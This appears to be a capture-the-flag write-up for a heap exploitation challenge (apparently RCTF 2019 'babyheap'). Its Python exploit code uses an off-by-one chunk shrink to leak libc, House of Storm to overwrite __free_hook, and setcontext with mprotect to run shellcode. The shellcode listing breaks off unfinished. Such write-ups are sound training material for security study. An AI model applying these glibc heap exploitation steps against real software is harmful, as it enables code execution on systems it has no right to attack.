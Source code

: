 [usage of setcontext][2]

# Solution
* #1Off_By_One(shrink)  ===> overlap ===> Leak  libc
```python
add(0x500)#0
add(0x88)#1
add(0x88)#2
free(0)
add(0x18)#0
edit(0,"A"*0x18)
add(0x88)#3
add(0x88)#4
free(3)
free(1)
add(0x2d8)#1
add(0x88)#3
add(0x48)#5
free(4)
show(5)
#0x47b75+base
base=u64(p.readline()[:-1].ljust(8,'\x00'))-(0x7ffff7dd1b78-0x7ffff7a0d000)
libc.address=base
log.warning(hex(base))
```
* clear unsorted bin ptr
`add(0x458+0x90)#4`
* do step#1 again to set `__free_hook` by   [`House of storm`][1]
```python
aim=libc.sym['__free_hook']
bk=aim-0x20+8
bk_nextsize=aim-0x20-0x18-5
add(0x500)#6
add(0x88)#7
add(0x88)#8
free(6)
add(0x18)#6
edit(6,"A"*0x18)
add(0x88)#9
add(0x88)#10
free(9)
free(7)
add(0x2d8)#7
add(0x78)#9
add(0x48)#11
add(0x4a9)#12
edit(10,p64(0)*7+p64(0x4a1)+p64(0)+p64(bk)+p64(0)+p64(bk_nextsize))#edit the head of LARGECHUNK
edit(11,p64(0)+p64(0x21)*7)
free(10)
edit(11,p64(0)+p64(0x4b1)+p64(0)+p64(aim-0x20))#edit the head & bk of UNSORTEDCHUNK
add(0x48)#10
```
* Now we can Run our Shellcode by `setcontext+0x35` + `mprotect`
```python
magic=libc.sym['__free_hook']+0x8
# read + mprotect 
top='''
mov rdx,0x1234000
mov al,9
mov rdi,rdx
jmp .+0x14
'''
shellcode='''
```

[1]: https://n132.github.io/2019/05/07/2019-05-07-House-of-Storm/
[2]: https://n132.github.io/2019/05/10/2019-05-08-Startctf2019-Heap-master/#setcontext()
[3]: https://github.com/n132/Watermalon/tree/master/RCTF-2019/pwn/babyheapp